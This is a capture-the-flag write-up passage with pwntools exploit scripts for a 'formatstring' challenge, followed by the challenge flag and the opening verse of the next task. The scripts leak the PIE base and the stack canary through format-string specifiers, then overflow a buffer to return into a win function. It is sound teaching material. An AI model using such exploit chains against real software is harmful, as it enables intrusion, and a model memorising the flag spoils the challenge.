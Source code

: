 ```py 
    pie + rop.ret.address,
    pie + elf.symbols.win,
)
p.sendline(payload)
p.interactive()
```
Alternate solution:
```py
from pwn import *
context.log_level='debug'

HOST = "alpha.8059blank.ml"
PORT = 3002
p = remote(HOST, PORT)
BINARY = './formatstring'
elf = context.binary = ELF(BINARY)
#p = process(BINARY)

p.sendlineafter("Let's leak the PIE offset first.\n", flat("%45$p"))
pie_main = int(p.recvline(keepends=False),16)

log.info(f"pie main at {hex(pie_main)}")
log.info(f"main symbol at {hex(elf.sym.main)}")
elf.address = pie_main - elf.sym.main
log.success(f"pie at {hex(elf.address)}")

p.sendlineafter("How about the canary?\n", flat("%39$p"))
canary = int(p.recvline(keepends=False),16)
log.success(f"canary is {hex(canary)}")

rop = ROP(elf)
p.sendlineafter("Now you've got everything you need!", flat(
        b"A"*264,
        canary,
        b"A"*8,
        rop.ret.address,
        elf.sym.win
))
p.interactive()
```

Flag: `ACSI{h0p3_u_l1k3_1t_uwu_owo}`

### Ret2Arendelle

>Disaster strikes when Anna's hair turns white!
>Guide Kristoff and Sven to the place of home,
>Point him to where he ought to alight,
>Make haste before the soul turns frigid.
>
>Author: Jodie
